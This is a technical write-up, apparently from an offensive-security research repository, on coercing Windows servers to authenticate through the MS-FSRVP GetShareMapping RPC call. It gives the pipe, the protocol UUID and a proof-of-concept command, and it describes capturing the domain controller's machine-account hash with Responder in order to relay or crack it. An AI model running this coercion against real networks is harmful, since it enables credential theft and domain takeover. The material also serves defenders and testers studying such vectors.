 # MS-FSRVP - Remote call to GetShareMapping (opnum 10)

## Summary

+ **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

+ **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\\pipe\FssagentRpc`

+ **Function name**: [`GetShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f663aa66-a1d1-4583-8f36-590410ebdfa8)

+ **Function operation number**: `10`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`GetShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f663aa66-a1d1-4583-8f36-590410ebdfa8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetShareMapping('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD GetShareMapping(
         [in] handle_t hBinding,
         [in] GUID ShadowCopyId,
         [in] GUID ShadowCopySetId,
         [in] [string] LPWSTR ShareName,
         [in] DWORD Level,
         [out] [switch_is(Level)] PFSSAGENT_SHARE_MAPPING ShareMapping);
```

## References

+ Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

+ Documentation of function `GetShareMapping`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f663aa66-a1d1-4583-8f36-590410ebdfa8